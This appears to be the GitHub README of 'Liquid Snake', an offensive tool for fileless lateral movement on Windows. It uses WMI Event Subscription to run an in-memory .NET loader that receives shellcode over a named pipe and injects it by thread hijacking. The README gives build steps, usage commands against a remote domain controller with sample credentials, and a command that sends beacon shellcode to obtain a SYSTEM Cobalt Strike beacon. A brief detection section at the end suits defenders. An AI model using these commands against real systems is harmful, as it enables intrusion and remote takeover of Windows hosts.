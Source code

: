 # Liquid Snake

Liquid Snake is a program aimed at performing lateral movement against Windows systems without touching the disk.
The tool relies on WMI Event Subscription in order to execute a .NET assembly in memory, the .NET assembly will listen for a shellcode on a named pipe and then execute it using a variation of the thread hijacking shellcode injection.

The diagram below (hopefully) clarifies the flow of data:

![](images/poc.jpeg)


## Credits 

- [MDSec - WMI Event Subscription](https://www.mdsec.co.uk/2020/09/i-like-to-move-it-windows-lateral-movement-part-1-wmi-event-subscription/) - this tool is merely an implementation of the concept described in this blog post, the code also relies on Dominic's WMI persistence C Sharp PoC
- [pwndizzle - thread-hijack.cs](https://github.com/pwndizzle/c-sharp-memory-injection/blob/master/thread-hijack.cs) - for inspiration on the thread hijacking implementation in C Sharp
- [med0x2e - GadgetToJscript](https://github.com/med0x2e/GadgetToJScript) - for the monstrous work of creating GadgetToJScript

## Intro 

The project is composed by two separate solutions:

- `CSharpNamedPipeLoader` - the component that will be transformed in VBS via GadgetToJScript
- `LiquidSnake` - the component responsible to creating the WMI Event Subscription on the remote system

## Building

Simply open both solutions in Visual Studio and build them. Make sure to target x64 architecture for the `CSharpNamedPipeLoader`. If everything went fine, you should have two separate EXEs: CSharpNamedPipeLoader.exe and LiquidSnake.exe

Using GadgetToJscript, convert the `CSharpNamedPipeLoader.exe` to VBS using the following command:

```
GadgetToJScript.exe -a CSharpNamedPipeLoader.exe -b -w vbs
```

Test the .NET deserialisation using `cscript.exe` and ensure that everything works as expected:

```
cscript.exe test.vbs
```

Then, base64 encode the vbs file and stick it in the LiquidSnake's Program.cs `vbscript64` variable at line 29. 

I already made this for you so you can just compile the LiquidSnake solution and use it as it is. 

## Usage 

Usage of this project is straightforward, use `LiquidSnake.exe` agains a host where you have administrative access over as follows:

```
LiquidSnake.exe <host> [<username> <password> <domain>]
LiquidSnake.exe dc01.isengard.local
LiquidSnake.exe dc01.isengard.local saruman DeathToFrodo123 isengard.local
```

NOTE: Currently thers is a bug when you explicitly set user credentials, the tool will not work in that case. It is recommended to use `make_token` or any other impersonation mechanism instead.

If everything went fine, you should obtain an output similar as the following:

```
[*] Event filter created.
[*] Event consumer created.
[*] Subscription created, now sleeping
[*] Sending some DCOM love..
[*] Sleeping again... long day
```

The example above uses CobaltStrike's `execute-assembly` to launch LiquidSnake:

![](images/2021-08-31-16-42-30.png)

Meanwhile, in the remote host a new named pipe will be created with the following name:

```
\\.\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7
```

![](images/2021-08-31-16-43-15.png)

Then, using my `send_shellcode_via_pipe` [project from my BOFs](https://github.com/RiccardoAncarani/BOFs/tree/master/send_shellcode_via_pipe) you can send an arbitrary shellcode on the remote pipe that will be loaded and executed:

```
send_shellcode_via_pipe \\dc01\pipe\6e7645c4-32c5-4fe3-aabf-e94c2f4370e7 beacon.bin 
```

![](images/2021-08-31-16-41-25.png)

If everything worked as expected, you should obtain a SYSTEM beacon:

![](images/2021-08-31-16-41-05.png)

NOTE: The current LiquidSnake version contains artefact generated by GadgetToJScript that targets .NET version 4.x. If your target host has only 3.5 installed, this will fail. Simply repeat the same process but using the appropriate .NET version when building GadgetToJScript.


## Detection

There are many detection opportunities to identify the abuse of this tool and in general the use of this technique:

- Creation and deletion of a WMI Event Filter in a short period of time, see Sysmon event IDs 19, 20, 21, 22
- Module load events for `clr.dll` related to the `scrcons.exe` process
- Creation of a named pipe related to the `scrcons.exe` process 